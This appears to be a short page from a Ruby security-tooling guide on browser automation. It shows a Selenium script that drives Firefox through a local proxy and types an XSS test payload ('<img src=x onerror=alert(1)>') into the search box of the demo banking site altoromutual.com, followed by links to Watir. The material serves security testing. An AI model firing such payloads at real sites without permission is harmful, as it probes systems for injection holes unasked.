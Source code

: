 # Browser Manipulation 




## Selenium Webdriver


```ruby
#!/usr/bin/env ruby
#
#
require "selenium-webdriver"

# Profile setup
proxy = Selenium::WebDriver::Proxy.new(:http => "localhost:8080")
profile = Selenium::WebDriver::Firefox::Profile.from_name "default"
profile.proxy = proxy		# Set Proxy
profile.assume_untrusted_certificate_issuer = false	# Set Accept untrusted SSL cetificates
profile.native_events = true
driver = Selenium::WebDriver.for(:firefox, :profile => profile)

# driver = Selenium::WebDriver.for(:firefox, :profile => "default")
driver.manage.window.resize_to(500, 400)
driver.navigate.to "http://www.altoromutual.com/search.aspx?"


element = driver.find_element(:name, 'txtSearch')
element.send_keys "<img src=x onerror='alert(1)'>"
element.send_keys(:control, 't')

element = driver.find_element(:name, 'txtSearch')
element.send_keys "<img src=x onerror='alert(1)'>"
element.send_keys(:control, 't')


# element.send_keys(:control, 'w')


element.submit
```


> Note that the actual keys to send depend on your OS, for example, Mac uses `COMMAND + t`, instead of `CONTROL + t`.





https://www.browserstack.com/automate/ruby





## Watir Webdriver
http://watirwebdriver.com/

http://watir.com/

